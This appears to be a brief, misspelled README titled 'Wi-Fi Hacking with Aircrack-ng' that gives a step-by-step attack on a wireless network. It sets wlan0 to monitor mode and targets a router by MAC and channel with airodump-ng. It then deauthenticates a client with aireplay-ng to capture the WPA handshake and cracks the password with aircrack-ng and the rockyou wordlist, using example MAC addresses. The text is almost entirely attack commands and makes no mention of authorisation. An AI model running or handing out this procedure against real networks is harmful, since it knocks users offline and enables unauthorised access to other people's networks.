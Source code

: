 # Wi-Fi Hacking with Aircrack-ng
kill airmon-ng 

airmon-ng check kill 

iwconfig 


is importent to down the interface 

ifconfig wlan0 down 

active monitor mode 

iwconfig wlan0 mode monitor 

up the interface 

ifconfig wlan0 up

strat  attcak 


airmon-ng start wlan0 
airodump-ng wlan0 
ifconfig


attack router monitor router

airodump-ng --bssid <router mac > --channel <router channel> --write <file name > wlan0


example 

airodump-ng --bssid 28:87:BA:5A:EB:93 --channel 4 --write moonx wlan0  

deauth password 

deauth for handsake capchare 

aireplay-ng --deauth <deauth number > -a <router mac> -c <davice mac> wlan0


aireplay-ng --deauth 10 -a E8:65:D4:FE:84:F8 -c BE:B1:0B:BC:06:B8 wlan0

crack password 

 aircrack-ng moonx-01.cap -w /usr/share/wordlists/rockyou.txt   
